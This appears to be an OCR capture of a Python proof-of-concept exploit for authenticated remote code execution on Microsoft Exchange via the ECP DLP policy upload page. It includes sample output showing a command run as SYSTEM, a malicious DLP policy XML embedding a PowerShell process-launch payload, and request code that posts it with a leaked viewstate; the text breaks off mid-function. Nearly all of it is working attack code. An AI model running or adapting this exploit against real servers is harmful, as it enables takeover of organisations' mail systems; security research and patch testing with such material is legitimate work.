 ```angular2
researcher@incite:~$ ./poc.py
(+) usage: ./poc.py <target> <user:pass> <cmd>
(+) eg: ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint

researcher@incite:~$ ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
(+) logged in as harrym@exchangedemo.com
(+) found the __viewstate: /wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5
(+) executed mspaint as SYSTEM!
"""

import re
import sys
import random
import string
import urllib3
import requests
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def random_string(str_len=8):
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for i in range(str_len))

def get_xml(c):
    return """<?xml version="1.0" encoding="UTF-8"?>
<dlpPolicyTemplates>
  <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>si</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
      <commandBlock>
        <![CDATA[ $i=New-object System.Diagnostics.ProcessStartInfo;$i.UseShellExecute=$true;$i.FileName="cmd";$i.Arguments="/c %s";$r=New-Object System.Diagnostics.Process;$r.StartInfo=$i;$r.Start() ]]>
      </commandBlock>
    </policyCommands>
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>""" % c

def trigger_rce(t, s, vs, cmd):
    f = {
        '__VIEWSTATE': (None, vs),
        'ctl00$ResultPanePlaceHolder$senderBtn': (None, "ResultPanePlaceHolder_ButtonsPanel_btnNext"),
        'ctl00$ResultPanePlaceHolder$contentContainer$name': (None, random_string()),
        'ctl00$ResultPanePlaceHolder$contentContainer$upldCtrl': ("dlprce.xml", get_xml(cmd)),
    }
    r = s.post("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, files=f, verify=False)
    assert r.status_code == 200, "(-) failed to trigger rce!"

def leak_viewstate(t, s):
    r = s.get("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, verify=False)
    match = re.search("<input type=\"hidden\" name=\"__VIEWSTATE\" id=\"__VIEWSTATE\" value=\"(.*)\" />", r.text)
```